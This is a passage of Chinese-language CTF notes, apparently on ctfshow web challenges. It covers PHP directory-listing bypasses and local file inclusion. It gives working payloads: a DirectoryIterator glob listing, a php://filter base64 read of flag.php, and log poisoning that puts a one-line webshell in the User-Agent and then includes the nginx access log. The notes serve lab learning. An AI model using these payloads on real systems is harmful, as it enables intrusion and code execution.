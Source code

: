 **scandir**被ban了，前面的几个扫目录办法依旧可行

#### 75

同72有权限阻拦，暂时放着

#### 76

同72有权限阻拦可以用
`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`
查目录(其他的权限不允许，不知道为什么)

但是不能直接用`include`读

后面的暂时放着吧...开新坑了

+++

## 文件包含

+++

### web78

+++

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

> 首先这是一个file关键字的get参数传递，php://是一种协议名称，php://filter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。
>
> 通过传递这个参数可以得到index.php的源码，下面说说为什么，看到源码中的include函数，这个表示从外部引入php文件并执行，如果执行不成功，就返回文件的源码。
>
> **而include的内容是由用户控制的，所以通过我们传递的file参数，是include（）函数引入了index.php的base64编码格式，因为是base64编码格式，所以执行不成功，返回源码，所以我们得到了源码的base64格式，解码即可。**

所以本题的payload为
`?file=php://filter/read=convert.base64-encode/resource=flag.php`
也可去掉**read**
也可用在bp的**User-Agent**中插入一句话木马发包
然后访问`?file=/var/log/nginx/access.log`，此时一句话木马就插入在该日志文件内并且被执行

以下的很多题都可以用这种方法绕过，就不赘诉了

### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
